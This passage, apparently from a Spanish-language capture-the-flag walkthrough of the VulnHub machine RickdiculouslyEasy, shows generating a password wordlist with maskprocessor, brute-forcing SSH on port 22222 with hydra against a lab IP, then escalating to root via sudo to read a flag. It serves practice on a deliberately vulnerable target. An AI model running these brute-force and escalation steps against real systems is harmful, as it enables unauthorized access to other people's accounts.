 Crear un diccionario de contraseñas utilizando `Maskprocessor`, este programa permite crear ficcionarios especificando patrones. (ZSH no rinde bien con caracteres especiales cómo "?", por ello utilizo bash para este paso)

`mp64 ?u?dCurtains      <- ?u Significará una letra mayúscula, ?d Significará un dígito del 0 al 9`

Especificar tanto para los nombres flesh y curtains tanto en mayúscula como en minúscula

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/rickdiculouslyeasy/41.png){: .align-center}

Utilizar `hydra` para encontrar la contraseña del usuario RickSanchez con el diccionario creado anteriormente y con el puerto 22222. Después de un tiempo mostrará la contraseña del usuario RickSanchez

```bash
sudo hydra -t 64 -l RickSanchez -P names.txt 192.168.122.11 ssh -s 22222
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/rickdiculouslyeasy/42.png){: .align-center}

Cambiar al usuario RickSanshez

```bash
su RickSanchez
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/rickdiculouslyeasy/43.png){: .align-center}

Ver los permisos de RickSanchez, mostrará que tiene todos los permisos

```bash
sudo -l
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/rickdiculouslyeasy/44.png){: .align-center}

Cambiar al usuario root

```bash
sudo su
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/rickdiculouslyeasy/45.png){: .align-center}

Ir al directorio /root y mostrar el contenido

```bash
cd /root
ls
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/rickdiculouslyeasy/46.png){: .align-center}

Leer el archivo FLAG.txt

```bash
tail FLAG.txt
```
